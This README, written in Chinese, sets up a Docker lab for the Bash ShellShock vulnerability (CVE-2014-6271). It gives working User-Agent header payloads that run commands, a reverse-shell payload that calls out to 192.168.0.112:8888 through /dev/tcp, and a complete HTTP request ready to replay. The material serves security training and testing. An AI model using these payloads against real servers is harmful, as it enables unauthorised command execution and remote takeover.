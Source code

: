 ## Bash ShellShock CVE-2014-6271(破壳)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:b_bash_shellshock1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 medicean/vulapps:b_bash_shellshock1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址/cgi-bin/poc.cgi`，通过 Burp 截包，修改 HTTP 请求头中 UA 字段：

* 命令执行

 ```
User-Agent: () { :;};echo ; echo; echo $(/bin/ls -al /);
 ```

* 反弹 Shell 到 192.168.0.112 8888端口:

 ```
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.112/8888 0>&1;
 ```


完整的请求报文如下(可直接复制到 Burp 下重放)：

```
GET /cgi-bin/poc.cgi HTTP/1.1
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: () { :;};echo ; echo; echo; echo $(/bin/ls -al / );
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6


```

### 改动日志

20160731

 * 修正资源为本地路径